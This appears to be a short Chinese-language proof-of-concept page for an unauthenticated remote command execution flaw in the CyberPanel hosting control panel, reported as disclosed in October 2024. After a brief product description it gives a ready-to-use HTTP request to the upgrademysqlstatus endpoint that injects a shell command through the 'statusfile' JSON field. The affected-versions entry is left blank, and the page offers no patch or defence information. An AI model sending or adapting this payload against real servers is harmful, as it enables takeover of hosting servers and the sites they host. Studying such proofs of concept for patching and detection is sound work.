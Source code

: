 漏洞介绍

CyberPanel是一款基于OpenLiteSpeed的Web托管控制面板，专为现代Web托管需求设计。它不仅提供了丰富的功能，还确保了高性能和安全性。无论您是个人开发者、小型企业还是大型企业，CyberPanel都能满足您的托管需求。

CyberPanel 是基于 (Open) LiteSpeed 开发的多用户管理的控制面板。2024年10月，互联网上披露CyberPanel upgrademysqlstatus 远程命令执行漏洞，攻击者可在无需登陆的情况下执行任意命令，控制服务器。

**影响版本**

CyberPanel 

**漏洞复现**

**POC** 

漏洞复现

```
GET /dataBases/upgrademysqlstatus HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/json
Connection: close
Content-Length: 23

{"statusfile":"1;id;#"}
```

